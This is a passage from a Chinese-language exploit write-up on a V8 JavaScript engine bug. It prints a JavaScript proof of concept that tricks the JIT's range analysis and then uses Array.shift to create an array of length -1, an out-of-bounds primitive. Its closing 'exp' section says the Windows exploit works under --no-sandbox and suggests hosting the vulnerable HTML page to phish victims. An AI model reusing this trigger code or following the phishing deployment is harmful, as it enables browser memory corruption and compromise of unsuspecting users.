 这是经过常量折叠后保存的新的长度-1。
![](./img/5.png)

修改后的oob poc
```
function foo(a) {
    var x = 1;
	x = (_arr[0] ^ 0) + 1;

	x = Math.abs(x);
	x -= 2147483647;
	x = Math.max(x, 0);

	x -= 1;
	if(x==-1) x = 0;

	var arr = new Array(x);
	arr.shift();
	var cor = [1.1, 1.2, 1.3];

	return [arr, cor];
}

for(var i=0;i<0x3000;++i)
    foo(true);

var x = foo(false);
console.log(x[0].length)
```
执行这个poc可以得到x[0]也就是我们的越界数组他的长度为-1也就是0xffffffff。


## exp

windows版本，可在--no-sanbox下触发：

开启web服务，上线包含漏洞代码的html，即可通过该网站来进行钓鱼。
